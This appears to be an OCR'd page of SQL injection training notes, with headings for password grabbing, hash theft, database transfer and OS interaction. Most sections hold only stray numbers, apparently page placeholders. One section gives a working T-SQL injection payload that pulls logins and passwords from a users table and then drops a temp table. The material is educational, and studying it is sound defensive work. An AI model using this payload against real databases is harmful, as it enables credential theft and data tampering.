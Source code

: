#### Creating Database Accounts

![Creating Database Accounts](img/sql_inj_dbms_accounts.png)

#### Password grabbing

... is one of the most serious consequences of an SQL injection attack.

```sql
-- for example, attackers may use the following code to grab the passwords
'; BEGIN DECLARE @var varchar(8000)
SET @var=':' SELECT @var=@var+' '+login+'/'+password+' ' FROM users WHERE login>@var SELECT @var As var INTO temp END --
' AND 1 IN (SELECT var FROM temp) --
' ; DROP table temp --
```

#### Grabbing SQL server hashes

2106

#### Transfer database to attacker's machine

2108

#### Interacting with the Operating System

2109

#### Interacting with the File System

2111

#### Network reconnaissance using SQL injection

2112

#### Network reconnaissance Full Query
